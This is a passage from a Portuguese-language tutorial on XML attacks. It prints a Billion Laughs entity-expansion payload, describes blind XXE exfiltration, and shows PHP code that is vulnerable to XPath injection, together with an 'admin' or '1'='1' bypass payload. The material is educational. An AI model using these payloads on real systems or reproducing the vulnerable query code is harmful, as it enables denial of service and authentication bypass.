 **Payload "Billion Laughs"**:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
]>
<lolz>&lol5;</lolz>
```

- **XXE Cego (*Blind XXE*)**: Este ataque ocorre quando a aplicação processa a entidade externa mas não devolve o seu conteúdo na resposta HTTP. A exploração torna-se mais complexa e requer técnicas *out-of-band*. O atacante pode, por exemplo, hospedar uma DTD maliciosa num servidor que controla. Esta DTD externa pode definir uma entidade que exfiltra dados construindo um URL ou caminho de rede, forçando o servidor vulnerável a fazer um pedido DNS ou HTTP para o servidor do atacante, com os dados sensíveis codificados no subdomínio ou no caminho do URL.

### 2.2. XPath Injection

Esta vulnerabilidade é conceitualmente análoga à Injeção de SQL e ocorre quando uma aplicação constrói uma consulta XPath dinamicamente, concatenando *input* do usuário que não foi devidamente sanitizado. Ao injetar metacaracteres e operadores lógicos da linguagem XPath, um atacante pode manipular a consulta para alterar a sua lógica e resultados.

**Cenários de Ataque Detalhados**

- **Bypass de Autenticação**: Este é um dos objetivos mais comuns. O atacante injeta uma condição que é sempre verdadeira (uma tautologia) para contornar mecanismos de autenticação baseados em consultas XPath.

**Código Vulnerável (Exemplo em PHP)**:

```php
// A aplicação recebe o username e password do usuário
$username = $_POST['username'];
$password = $_POST['password'];

// A consulta XPath é construída por concatenação de strings
$xpath_query = "/users/user[username/text()='".$username."' and password/text()='".$password."']";

// A consulta é executada para encontrar um usuário correspondente
$result = $xml_doc->xpath($xpath_query);
```

**Payload de Bypass**: O atacante insere o seguinte valor no campo *username*: `admin' or '1'='1`. O campo da *password* pode ser deixado em branco.

**Análise da Consulta Resultante**: A consulta XPath que a aplicação irá executar torna-se:

```
/users/user[username/text()='admin' or '1'='1' and password/text()='']
```
